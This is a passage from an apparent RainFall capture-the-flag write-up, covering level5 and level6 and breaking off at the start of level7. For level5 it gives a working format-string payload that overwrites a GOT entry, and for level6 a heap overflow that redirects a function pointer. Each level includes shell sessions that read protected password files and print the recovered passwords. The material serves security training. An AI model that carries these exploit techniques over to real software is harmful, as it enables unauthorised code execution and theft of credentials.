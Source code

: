 1. get address of `o()` (`0x080484a4`(16) == `134513828`(10))
2. get address of pointer provided by GOT
3. get position of format string in the stack (4)
4. use `%4$n` and build format string.

```shell-session
level5@RainFall:~$ (python -c 'print "\x38\x98\x04\x08" + "%134513824c" + "%4$n"'; cat) | ./level5
[...Huge long string of bytes that prints for tens of seconds...]
_
whoami
level6
cat ~level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

# level6

## Type of exploit

Buffer Overflow + behaviour of `malloc()` and contiguity of allocated memory chunks + use of `strcpy`

## Details of level6

`info functions` tells us there are three functions: `n()(0x08048454)`, `m()`, `main()`.

In the main there are two successive calls to `malloc()` into two different variables, and a mention of the address of `m()` as well, which address is placed in and called from a register.

`disas n` tells us that there is a call to `system(/bin/cat /home/user/level7/.pass)` inside it, but `n()` is never called.

Since we know the program uses `malloc()` successively and calls `strcpy()` with `argv[1]` and one of the `malloc-ed pointer`, we can use a `strcpy()` vulnerability to overwrite the address of the allocated pointer that is stored in the register, and make it point to `n()`.

```shell-session
level6@RainFall:~$ ./level6 $(python -c 'print "B"*72 + "\x54\x84\x04\x08"')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

# level7

## Type of exploit

Buffer Overflow + behaviour of `malloc()` and contiguity of allocated memory chunks + use of `strcpy()` + GOT overwrite

## Details of level7

There are two custom functions in the binary `m()` and `main()`.
